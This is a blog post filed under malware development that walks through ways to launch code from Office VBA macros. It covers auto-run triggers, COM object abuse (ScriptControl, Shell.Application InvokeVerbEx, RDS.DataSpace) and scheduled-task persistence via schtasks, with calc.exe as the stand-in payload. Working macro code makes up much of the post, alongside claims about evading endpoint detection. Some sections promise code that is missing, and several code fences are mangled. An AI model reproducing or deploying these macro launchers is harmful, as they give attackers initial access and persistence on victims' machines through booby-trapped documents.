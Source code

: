 ```yaml
---
layout: post
title: "VBA Bazooka: Different Ways of Launching"
date: 2025-09-26 19:43:00 +0300
categories: [Malware Development]
tags: 
pin: false
description: Dissecting Advanced VBA Macro Execution Techniques.
toc: true
image: /assets/img/ThreadLess/threadless.png
---
```


<h1>The Unyielding Threat: Dissecting Advanced VBA Macro Execution Techniques</h1>

The digital threat landscape continues to witness the sophisticated weaponization of VBA macros by advanced adversaries. Despite heightened security controls and widespread awareness campaigns, attackers persistently exploit the deep integration and inherent trust models of Microsoft Office applications to gain initial access. Our analysis moves beyond basic AutoOpen and Document_Open triggers to explore the more obscure, potent launchers being actively deployed in current campaigns. We will deconstruct techniques such as using the InvokeVerbEx method for shell execution and leveraging the RDS.DataSpace object for COM manipulation—methodologies we have consistently observed in operational environments. Working at SCIAT AFRICA has provided definitive evidence of how these methods effectively bypass application hardening and endpoint detection solutions, demonstrating an urgent need for defenders to deepen their understanding of this continuously evolving attack vector.



# The Art of Macro Execution: Beyond AutoOpen

In the evolving landscape of VBA macro security, attackers continue to 
develop sophisticated techniques to bypass detection and execute their 
payloads. While traditional methods like `AutoOpen` and `Document_Open` remain prevalent, advanced actors are leveraging COM object hijacking and script control to enhance their tradecraft.

## Classic COM Object Launching

vb```Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 ' InternetExplorer.Application Technique
 Dim ie As Object
 Set ie = CreateObject("InternetExplorer.Application")
 ie.Navigate "javascript:new ActiveXObject('WScript.Shell').Run('calc.exe')"
 ' MSXML2.ServerXMLHTTP + WScript.Shell
 Dim xml As Object, ws As Object
 Set xml = CreateObject("MSXML2.ServerXMLHTTP")
 Set ws = CreateObject("WScript.Shell")
 ws.Run "calc.exe"
 ' Windows Media Player OCX
 Dim wmp As Object
 Set wmp = CreateObject("WMPlayer.OCX")
 wmp.URL = "file:///c:/windows/system32/calc.exe"
End Sub```

This approach demonstrates multiple COM object abuse techniques:

- **InternetExplorer.Application** leverages JavaScript execution within a browser context
  
- **MSXML2.ServerXMLHTTP** combined with WScript.Shell shows layered object creation
  
- **WMPlayer.OCX** misuse illustrates how media controls can be weaponized
  

## DotNetToJScript Style Execution

vb```Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 ' Method 3: DotNetToJScript style COM approach
 Dim sc As Object
 Set sc = CreateObject("ScriptControl")
 sc.Language = "JScript"
 sc.Eval "new ActiveXObject('WScript.Shell').Run('calc.exe',1,false);"
End Sub```

This technique is particularly interesting because it:

- Uses ScriptControl to create a JScript execution environment
  
- Demonstrates cross-language code execution within VBA
  
- Shows how .NET concepts can be adapted through COM interfaces
  

## InvokeVerbEx and RDS.DataSpace Techniques

In our continued exploration of sophisticated VBA macro execution 
techniques, we now examine two particularly interesting methods that 
leverage Windows Shell components and remote data services to bypass 
security controls.

## InvokeVerbEx: File Association Abuse

vb```Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim objShell As Object
 Dim objFolder As Object
 Dim objFolderItem As Object```

```vb
Set objShell = CreateObject("Shell.Application")
Set objFolder = objShell.NameSpace("C:\Windows\System32\")
Set objFolderItem = objFolder.ParseName("calc.exe")

If Not objFolderItem Is Nothing Then
    objFolderItem.InvokeVerbEx "open"
End If
```

End Sub```

This technique demonstrates file association hijacking through Shell.Application:

- **Shell Namespace Browsing**: Accesses the System32 directory through COM
  
- **File Parsing**: Locates the target executable using ParseName
  
- **Verb Invocation**: Uses InvokeVerbEx with the "open" verb to launch the application
  

## ShellExecute: Direct Process Creation

vb

A more direct approach using ShellExecute:

- **Direct Execution**: Bypasses file parsing by directly calling ShellExecute
  
- **Window Management**: The final parameter controls window visibility
  
- **Minimal Footprint**: Fewer COM interactions than the InvokeVerbEx method
  

## RDS.DataSpace: COM Factory Abuse

vb

`Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim rds As Object
 On Error Resume Next
 Set rds = CreateObject("RDS.DataSpace")
 If Err.Number = 0 Then
 Dim factory As Object
 Set factory = rds.CreateObject("WScript.Shell", "")
 factory.Run "calc.exe", 1, False
 End If
 On Error GoTo 0
End Sub`

This method represents a significant escalation in technique sophistication:

- **RDS.DataSpace Object**: Originally designed for remote data access, now weaponized
  
- **Object Factory Pattern**: Creates objects through a factory interface
  
- **Error Handling**: Includes defensive programming to handle potential failures
  

## Scheduled Task Persistence: The Stealthy VBA Execution Method

In
 the ever-evolving arsenal of VBA macro techniques, attackers have 
developed increasingly sophisticated methods to maintain persistence and
 evade detection. One particularly effective approach involves 
leveraging the Windows Task Scheduler through macros, creating a 
powerful persistence mechanism that survives reboots and application 
closures.

### Scheduled Task Deployment via VBA

vb

`Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim ws As Object
 Set ws = CreateObject("WScript.Shell")
 ws.Run "schtasks /create /tn ""TestTask"" /tr ""calc.exe"" /sc once /st 00:00", 0, True
 ws.Run "schtasks /run /tn ""TestTask""", 0, False
End Sub`

### Technical Breakdown

This technique demonstrates a two-stage approach to execution:

**Stage 1: Task Creation**

- Uses `schtasks /create` to establish a scheduled task named "TestTask"
  
- Configures the task to run `calc.exe` as a demonstration payload
  
- Sets execution for a specific time with `/sc once /st 00:00`
  
- The `0` parameter ensures the command window remains hidden
  
- `True` parameter waits for command completion before proceeding
  

**Stage 2: Immediate Execution**

- Uses `schtasks /run` to trigger the task immediately
  
- The `False` parameter allows the macro to continue without waiting
  
- Creates separation between the macro and the final payload execution
  

### Why This Method is Effective

From our observations at SCIAT AFRICA, scheduled task abuse provides several advantages for attackers:

**Persistence Benefits:**

- **Reboot Survival**: Tasks persist through system restarts
  
- **Application Independence**: Execution continues after Office applications close
  
- **Legitimate Appearance**: Scheduled tasks are common in enterprise environments
  
- **Timing Flexibility**: Can be configured for immediate or delayed execution
  

**Evasion Advantages:**

- **Process Separation**: Decouples the macro from the final payload
  
- **Reduced Suspicion**: Task Scheduler is a trusted Windows component
  
- **Minimal Memory Footprint**: The macro itself contains no malicious code
  

### Advanced Attack Scenarios

More sophisticated attackers enhance this technique with additional features:

vb

> Stay tuned for Part 2, where we'll dive into even more clever ways macros get the job done!

{: .prompt-tip }
